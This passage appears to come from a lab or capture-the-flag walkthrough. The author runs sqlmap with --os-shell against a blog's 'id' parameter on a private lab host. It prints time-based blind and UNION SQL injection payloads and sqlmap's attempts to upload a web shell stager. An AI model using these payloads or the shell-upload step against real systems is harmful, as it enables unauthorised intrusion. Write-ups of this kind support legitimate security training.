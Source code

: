At this point, I thought we need to either get creds or a shell. Let's pop a shell:

```
root@kali:~# sqlmap -u 'http://192.168.110.151/blog/index.php?act=page&id=1' --os-shell
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201606250a89}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:39:09

[10:39:10] [INFO] resuming back-end DBMS 'mysql' 
[10:39:10] [INFO] testing connection to the target URL
[10:39:10] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: act=page&id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))QKoM) AND 'HUMC'='HUMC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: act=page&id=1' UNION ALL SELECT NULL,CONCAT(0x7170706b71,0x766e4548586248517a7671644852634e4b797a56685349495347517370524769526c6a6b7964436c,0x7162707171),NULL,NULL,NULL-- -
---
[10:39:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0.12
[10:39:10] [INFO] going to use a web backdoor for command prompt
[10:39:10] [INFO] fingerprinting the back-end DBMS operating system
[10:39:10] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[10:39:12] [WARNING] unable to retrieve automatically the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /usr/local/apache2/htdocs, /var/www/nginx-default') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 
[10:39:14] [WARNING] unable to automatically parse any web server path
[10:39:14] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[10:39:14] [WARNING] unable to upload the file stager on '/var/www/'
[10:39:14] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[10:39:14] [WARNING] expect junk characters inside the file as a leftover from UNION query
[10:39:14] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process' user has no write privileges in the destination path)
[10:39:14] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[10:39:14] [WARNING] unable to upload the file stager on '/var/www/html/'
[10:39:14] [INFO] trying to upload the file stager on '/var/www/html/' via UNION method
```